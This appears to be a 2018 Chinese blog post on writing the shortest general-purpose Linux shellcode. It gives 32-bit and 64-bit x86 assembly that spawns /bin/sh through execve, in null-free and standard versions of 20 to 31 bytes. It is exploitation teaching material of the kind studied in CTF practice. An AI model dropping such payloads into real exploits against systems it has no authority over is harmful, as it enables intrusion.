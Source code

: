 ```yaml
---
layout:     post
title:      "Linux ShellCode"
subtitle:   "最短的通用shellcode编写"
date:       2018-11-16 12:00:00
author:     "Chris"
catalog: true
tags:
    - 笔记
    - ShellCode
    - Linux
 
---
```


在寄存器都是非理想值情况下(shellcode可根据环境具体触发时寄存器的值做长度调整)，我本着最优通用的原则，捣鼓了Linux下32位和64位最短通用shellcode的编写

## 32位

有"\x00"最短 20 byte

	shellcode= """
	xor ecx,ecx
	mul ecx
	mov al,0xb
	push 0x68732f   
	push 0x6e69622f   
	mov ebx,esp
	int 0x80
	"""
    shellcode=asm(shellcode)

无"\x00"最短 21 byte


	xor ecx,ecx
	mul ecx
	push eax
	mov al,0xb
	push 0x68732f   
	push 0x6e69622f   
	mov ebx,esp
	int 0x80


标准shellcode 23 byte

	xor ecx,ecx
	xor edx,edx
	push edx
	push "//sh"
	push "/bin"
	mov ebx,esp
	xor eax,eax
	mov al,0Bh
	int 80h

## 64位

最短无"\x00" 23 byte

	xor rsi,rsi
	mul esi
	push rax
	mov rbx,0x68732f6e69622f2f
	push rbx
	push rsp
	pop rdi
	mov al, 59
	syscall

标准shellcode 31 byte

	xor    rdi,rdi
	xor    rsi,rsi
	xor    rdx,rdx
	xor    rax,rax
	push   rax
	movabs rbx,0x68732f2f6e69622f
	push   rbx
	mov    rdi,rsp
	mov    al,0x3b
	syscall 